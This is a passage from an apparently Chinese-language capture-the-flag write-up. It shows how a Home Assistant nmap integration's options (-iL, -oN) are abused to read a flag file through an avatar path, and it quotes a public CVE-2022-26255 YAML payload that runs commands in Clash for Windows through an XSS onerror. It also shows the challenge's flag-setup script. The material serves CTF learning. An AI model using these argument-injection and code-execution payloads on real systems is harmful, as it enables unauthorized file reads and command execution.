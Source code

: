 提示 nmap 集成有问题。安装此集成，有命令行参数可以填。

看了 `man`，选项 `-iL` 可以指定从文件中读取目标。

开启调试日志，在系统日志中可以查看报错信息，但无法得到正常运行时的信息。

> 题目中提到了读写文件

`nmap` 使用 `-oN` 可以将输出信息保存到文件中。

创建一个头像，在 docker 中确定其在文件系统中的位置，作为 `nmap` 的参数。`nmap` 集成的选项设置为

```bash
-iL /flag.txt -oN /config/image/2aa5e5182c1cd45619fbc1959d0132c6/512x512
```

下载文件得到

```
Failed to resolve "flag{soOoo-mAny-LOoPhOLEs-in-HomE-AsSisTAnt}".
```

<br>

### 12. 非法所得

#### Flag 1

Clash 的版本是 0.19.8，可以找到 [NVD - CVE-2022-26255](https://nvd.nist.gov/vuln/detail/CVE-2022-26255)，提供了 [payload](https://github.com/Fndroid/clash_for_windows_pkg/issues/2710)

```yaml
proxy-groups:
    - name: <img/src="1"/onerror=eval(`require("child_process").exec("calc.exe");`);>
```

这个 CVE 是说：导入 yaml 文件时可以执行命令。我胡乱尝试了一下没有效果。

后来看了 Dockerfile，发现 Clash for windows 是跑在 Linux 上的。而题目中又提示可以阅读源码中的 `prepare_flag.mjs` 了解 Flag 的位置。

```javascript
import { chmodSync, readFileSync, writeFileSync } from 'node:fs'

function getFlag(path) {
    const content = readFileSync(path, 'utf8')
    writeFileSync(path, 'flag{no_flag_here}')
    return content
}

const flag0 = getFlag('/flag_0')
const flag1 = getFlag('/flag_1')
const flag2 = getFlag('/flag_2')

let profile = readFileSync('/app/profiles/flag.yml', 'utf8')
profile = profile.replace('flag{test}', flag0)
writeFileSync('/app/profiles/flag.yml', profile)

writeFileSync('/flag_easy', flag1)
chmodSync('/flag_easy', 0o666)

writeFileSync('/flag', flag2)
chmodSync('/flag', 0o400)
```
